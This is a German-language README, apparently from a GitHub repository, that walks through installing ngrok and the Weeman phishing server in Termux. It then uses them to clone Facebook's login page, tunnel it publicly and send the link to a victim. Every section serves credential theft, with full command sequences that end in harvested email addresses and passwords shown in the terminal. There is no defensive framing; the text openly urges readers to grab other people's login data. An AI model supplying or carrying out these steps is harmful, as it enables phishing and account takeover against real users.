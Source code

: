 # Weeman - http server for phishing

# Zuerst "ngrok"

SCHRITT FÜR SCHRITT "WEEMAN" IN TERMUX INSTALLIEREN :-
Teilen Sie Ihre Links über das Internet und schappen Sie sich die Login-daten
 --> installieren NGROK im vorraus

-gehe per Browser auf https://ngrok.com/download und lade die "Linux ARM" Zip

-in Termux nutzen wir jetzt folgende Befehle:

1. cd /sdcard/download
2. unzip ngrok.zip
3. cp ngrok $HOME
4. cd $HOME
5. ls
6. chmod 777 ngrok
7. ./ngrok
8. ./ngrok authtoken 844ZM.... [kopiere den Orginal Code der dir angezeigt wird, sobald du dich eingelogt hast]

 zu 8.: dieser schritt ist nicht unbedingt notwendig

# Installieren

TIPPE


  apt update && apt upgrade

dann TIPPE


  pkg install git

kopieren den folgenden Link


  git clone https://github.com/GottModusTermux/G0D

  ls

  cd G0D/weeman

  pkg install python2

  ls

  python2 weeman.py
  
# Ausführen

nach dem Start folgende befehle

-Befehl 1 

  set url yoursite.com

-Befehl 2 

  set port 8080

-Befehl 3 

  set action_url yoursite.com
  
-Befehl 4

  run
  
Nun öffnet ihr einen Browser und sucht
LOCALHOST:8080 oder 127.0.0.1:8080.

# ERÖFFNE EINE FACEBOOK-PHISHING SEITE.

-TIPPE

  cd G0D/weeman

  python2 weeman.py

  set url https://www.facebook.com/

  set port 8080

  set action_url https://www.facebook.com/

  run

Jetzt können Sie Ihre Facebook-Phishing Seite einfach per Ngrok an Ihr Opfer weiterleiten...

-Neues Termux Fenster öffnen

-gehe zum Ordner wo NGROK vorhanden ist
(hier im ordner G0D.... "cd G0D")

./ngrok http 8080

Oben rechts den unteren Link kopieren, und nun verschicken
Beispiel:
"https://denLinkKopieren.ngrok.io -> localhost:8080

sobald das Opfer seine Login-Daten eingegeben hat, 
können Sie seine E-Mail-ID und sein Passwort bei dem Termux Fenster "weeman" sehen



HTTP server for phishing in python.
Version 1.7.1 is the last and latest version for weeman.
